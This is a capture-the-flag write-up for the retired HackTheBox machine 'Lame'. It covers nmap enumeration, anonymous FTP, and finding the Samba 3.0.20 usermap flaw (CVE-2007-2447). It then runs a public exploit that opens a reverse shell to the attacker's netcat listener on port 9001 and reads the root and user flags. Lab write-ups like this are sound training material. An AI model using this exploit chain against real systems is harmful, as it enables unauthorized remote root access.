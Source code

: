 ```yaml
---
title: "Lame HTB Writeup"
date: 2021-04-03T20:51:59+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
    "retired",
    "easy",
    "linux",
]
---
```

![Machine info](/images/lame/1.png)

This machine is very easy and straight forward using public exploit and then you get root access directly.
These machine from retired machines on hackthebox and you need a vip subscribtion to access them. enjoy..

### 1. Enumeration:
* Nmap scan:
``nmap -sC -sV 10.10.10.3 -Pn`` or ``sudo nmap -sV -O -F --version-light 10.10.10.3``
![](/images/lame/2.png)

now we know the open ports and running services on them:
* 21 >> ftp
* 22 >> ssh
* 139 >> samba
* 445 >> samba

### FTP Enumeration:
* let's try loging into ftp using anonymous and empty password just press enter.
* login successful but i found nothing in there.
![](/images/lame/3.png)

### searching for samba exploits locally:
* ``searchsploit samba 3.0.20``
![](/images/lame/4.png)

found exploit for this version of samba that leads to RCE

let's look at it and know it's cve number to get it online and not using it with metasploit.

``nano /usr/share/exploitdb/exploits/unix/remote/16320.rb``
![](/images/lame/5.png)

* cve number >> 2007-2447
  * let's search it in google
found this github python [exploit](https://github.com/amriunix/CVE-2007-2447):
![](/images/lame/6.png)

let's install it and its dependencies:
![](/images/lame/7.png)
![](/images/lame/8.png)

* usage:
![](/images/lame/9.png)

* Exploitation:
  * ``python3 usermap_script.py 10.10.10.3 445 10.10.16.157 9001``
![](/images/lame/10.png)

  * open netcat on port 9001:
```yml
nc -lvnp 9001

//getting responsive shell:
python -c 'import pty; pty.spawn("/bin/sh")'

id

//getting root flag:
cd /root
cat root.txt

find /home user.txt
cat /home/makis/user.txt
```
![](/images/lame/11.png)

![](/images/lame/12.png)

* getting user flag:
```yml
find /home user.txt
cat /home/makis/user.txt
```
 
![](/images/lame/13.png)

And that's it, hope you enjoyed..

if so kindly give me respect [Wh1rlw1nd-HTB](https://www.hackthebox.eu/home/users/profile/182588).